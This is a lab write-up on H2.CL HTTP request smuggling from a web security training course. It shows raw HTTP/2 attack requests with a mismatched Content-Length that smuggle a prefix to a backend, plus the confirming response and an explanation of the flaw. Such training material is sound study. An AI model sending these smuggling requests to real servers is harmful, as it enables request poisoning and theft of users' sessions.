 > Tip:
>
> When performing some request smuggling attacks, you will want headers from the victim's request to be appended to your smuggled prefix. However, these can interfere with your attack in some cases, resulting in duplicate header errors and suchlike. In the example above, we've mitigated this by including a trailing parameter and a Content-Length header in the smuggled prefix. By using a Content-Length header that is slightly longer than the body, the victim's request will still be appended to your smuggled prefix but will be truncated before the headers. 

### PRACTITIONER Lab: H2.CL request smuggling
Lab's description:
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling alert(document.cookie). The victim user accesses the home page every 10 seconds. 

Solution:
First we've got to confirm H2.CL:

Let's craft an attack req and send it:
```bash
POST / HTTP/2
Host: 0ae700f603b9e4588078eee200b400a6.web-security-academy.net
Cookie: session=yh8gFnvlEdf8TxU3ONh5TghQWFzToAFR
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /doesnotexist HTTP/1.1
X-Ignore: x
```

And after it we send normal req:
```bash
GET /?search=hi HTTP/2
Host: 0ae700f603b9e4588078eee200b400a6.web-security-academy.net
Cookie: session=yh8gFnvlEdf8TxU3ONh5TghQWFzToAFR
```

In the response to the normal req we get:
```bash
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

We get this response because attack req poisoned the backend server. It worked because the frontend server ignored the `Content-length` header. http 2 has its own mechanism for determining the length. 
RFC states that `Content-length` is allowed in http 2 however it must match the length that is calculated by the http 2 mechanism. But in this lab the front end server simply ignores the `Content-length` header when we send an http 2 req.
